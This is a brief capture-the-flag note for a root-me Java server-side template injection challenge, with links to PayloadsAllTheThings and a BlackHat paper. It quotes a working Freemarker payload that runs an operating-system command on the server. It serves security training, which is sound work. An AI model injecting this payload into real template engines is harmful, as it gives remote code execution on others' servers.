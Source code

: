 # Java: Server-side Template Injection (SSTI)

[root-me challenge: Java - Server-side Template Injection](https://www.root-me.org/en/Challenges/Web-Server/Java-Server-side-Template-Injection): Exploit the vulnerability in order to retrieve the validation password in the file `SECRET_FLAG.txt`.

----

[PayLoadAllTheThings Freemarker code execution](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#freemarker---code-execution)

```text
${"freemarker.template.utility.Execute"?new()("ls -la")}
```

etcetera.

## Resources

* [Server-Side Template Injection RCE For The Modern Web App - BlackHat 15](https://repository.root-me.org/Exploitation%20-%20Web/EN%20-%20Server-Side%20Template%20Injection%20RCE%20For%20The%20Modern%20Web%20App%20-%20BlackHat%2015.pdf)